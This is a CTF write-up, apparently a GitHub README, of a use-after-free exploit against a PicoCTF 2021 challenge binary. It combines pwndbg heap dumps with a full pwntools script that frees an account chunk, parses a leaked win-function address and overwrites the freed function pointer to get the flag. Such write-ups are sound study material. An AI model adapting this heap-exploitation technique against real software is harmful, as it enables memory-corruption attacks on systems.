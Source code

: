 
[[use-after-free]]

32 bit Use after free exploit from PicoCTF 21. I followed the video from [CryptoCat](https://www.youtube.com/watch?v=YGQAvJ__12k&ab_channel=CryptoCat) for this exploit.
I followed along with the video to try and get a better understanding of how these exploits work though I put the script together on my own. I noticed a fancy way of getting the leaked address from the output which has been incorporated into my script.



after first malloc - this is what is set to rax - 4 
```
pwndbg> x/8wx 0x804c1a0 -4
0x804c19c:      0x00000011      0x00000000      0x00000000      0x00000000
0x804c1ac:      0x00021e59      0x00000000      0x00000000      0x00000000
```

we can see 0x0000011 bytes (it's allocated 16 bytes and the extra byte indicates that the chunk before is in use)

There is currently no data in the chunk

Create an account using the M function and call the username beast:
```
pwndbg> x/8wx 0x804c1a0 -4
0x804c19c:      0x00000011      0x080489f6      0x0804c630      0x00000000
0x804c1ac:      0x00000411      0x73616562      0x00000a74      0x00000000
```

The first line is the function pointer `0x080489f6` and username pointer `0x0804c630` -> 

```
pwndbg> x/gwx 0x0804c630
0x804c630:      0x 73 61 65 62 -> 'beast'
```

This one is pointing to the function 'M' but we want it to point to the win function:

```
pwndbg> x/gx 0x080489f6
0x80489f6 <m>:  0xe804ec8353e58955
```


After freeing using the I function:

```
pwndbg> x/8wx 0x804c1a0 - 4
0x804c19c:      0x00000011      0x0000804c      0xafaa7c01      0x00000000
0x804c1ac:      0x00000411      0x73610a59      0x00000a74      0x00000000
```


So we can see now using `heap`

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x804c008
Size: 0x190 (with flag bits: 0x191)

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x804c198
Size: 0x10 (with flag bits: 0x11)
fd: 0x804c

Allocated chunk | PREV_INUSE
Addr: 0x804c1a8
Size: 0x410 (with flag bits: 0x411)

Allocated chunk | PREV_INUSE
Addr: 0x804c5b8
Size: 0x70 (with flag bits: 0x71)

Allocated chunk | PREV_INUSE
Addr: 0x804c628
Size: 0x70 (with flag bits: 0x71)

Top chunk | PREV_INUSE
Addr: 0x804c698
Size: 0x21968 (with flag bits: 0x21969)
```

There is one free chunk available (which we've just freed) `Addr: 0x804c198`

Now what if we leave a message with the address of the win function, will it be allocated to that free chunk?

Yes!

```
pwndbg> c
Continuing.
0x80487d6

Program received signal SIGSEGV, Segmentation fault.
0x30387830 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x30387830 ('0x80')
 EBX  0x804b000 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804af0c (_DYNAMIC) ◂— 1
*ECX  0x804c1a0 ◂— '0x80487d'
*EDX  8
 EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0
 ESI  0xffffd1f4 —▸ 0xffffd34b ◂— '/home/beast/pico 21/vuln'
 EBP  0xffffd108 —▸ 0xffffd128 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0
*ESP  0xffffd0fc —▸ 0x8048985 (doProcess+23) ◂— nop
*EIP  0x30387830 ('0x80')
─────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x30387830
```

we get a seg fault when entering data into the message. Obviously above i was entering the address as an ascii string which would not work but if we plug this into a pwntools script we should be able to redirect the program to the win function.


```
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x8048d6f
break *0x8048aff
break *0x8048a61
continue
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

io.sendlineafter(b'(e)xit', b'M')
io.sendlineafter(b'username', b'beast')

io.sendlineafter(b'(e)xit', b'I')
io.sendlineafter(b'?', b'Y')

io.sendlineafter(b'(e)xit', b'S')

print(io.recvline())


##### MY INITIAL CODE #####
# result = io.recvline()
# result = result.split(b'...')
# leaked_address = result[1]
# print(leaked_address)

##### CryptoCat Solution (more elegant) ##### (I need to remember this for next time!)
#Recieve until the below delimiter and when recieved, drop it.
io.recvuntil(b'OOP! Memory leak...', drop=True)
# once the above delimiter has been dropped, recieve the rest of the line as a string. Then, interpret it as an integer from hex (16)
leak = int(io.recvlineS(), 16)
info("leaked hahaexploitgobrrr() address: %#x", leak)

io.sendlineafter(b'(e)xit', b'l')
io.sendlineafter(b'ways:', p32(leak))


# Got Flag?
warn(io.recvlines(2)[1].decode())

```